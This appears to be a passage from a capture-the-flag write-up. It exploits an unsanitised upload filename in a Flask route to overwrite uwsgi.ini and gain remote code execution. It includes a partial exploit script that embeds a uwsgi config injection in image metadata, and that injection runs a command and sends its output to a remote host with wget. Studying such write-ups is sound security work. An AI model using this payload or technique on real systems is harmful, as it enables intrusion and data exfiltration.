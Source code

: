 ### UWSGI configuration overwrite RCE

Taking a look at this new functionality defined in `blueprints/api.py`

```python
@api.route('/addContract', methods=['POST'])
@isAuthenticated
@isVerified
@isInternal
@isAdmin
@antiCSRF
@sanitizeInput
def addContract(decodedToken):
    name = request.form.get('name', '')

    uploadedFile = request.files['file']

    if not uploadedFile or not name:
        return response('All files required!')
    
    if uploadedFile.filename == '':
        return response('Invalid file!')

    uploadedFile.save('/tmp/temporaryUpload')

    isValidPDF = checkPDF()

    if isValidPDF:
        try:
            filePath = os.path.join(current_app.root_path, 'contracts', uploadedFile.filename)
            with open(filePath, 'wb') as wf:
                with open('/tmp/temporaryUpload', 'rb') as fr:
                    wf.write(fr.read())

            return response('Contract Added')
        except Exception as e:
            print(e, file=sys.stdout)
            return response('Something went wrong!')
    
    return response('Invalid PDF! what are you trying to do?')
```

We can see it takes a PDF file and a name, validates the PDF, and simply stores it in the `contracts` folder, there is no sanitization in the PDF name so we can exploit Arbitrary file write but we can only overwrite PDF. We can follow the [following blog](https://blog.doyensec.com/2023/02/28/new-vector-for-dirty-arbitrary-file-write-2-rce.html) and get RCE via overwriting the `uwsgi.ini` file first and then overwriting any python file to trigger `uwsgi.ini` reload

```python
from fpdf import FPDF
from exiftool import ExifToolHelper

with ExifToolHelper() as et:
    et.set_tags(
        ["test.jpeg"],
        tags={"model": "&#x0a;[uwsgi]&#x0a;foo = @(exec://wget [REMOTE SERVER]?flag=$(/readflag))&#x0a;"},
        params=["-E", "-overwrite_original"]
    )

class MyFPDF(FPDF):
    pass

pdf = MyFPDF()

```